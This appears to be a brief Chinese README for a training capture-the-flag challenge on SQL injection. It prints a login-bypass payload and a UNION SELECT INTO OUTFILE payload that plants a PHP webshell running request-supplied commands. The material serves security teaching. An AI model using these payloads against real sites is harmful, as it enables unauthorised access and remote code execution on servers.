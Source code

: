 # SQLI 综合
一道简单的SQLI综合利用题，适合用在新生培训和Hgame-Mini.
攻击点在首页的SQL注入万能密码登录和WebShell注入.
```php
admin' or 1=1;#
```
```php
a' union select "","<?php @system($_REQUEST['cmd']); ?
>","","" into OUTFILE '/var/www/html/shell.php';#
```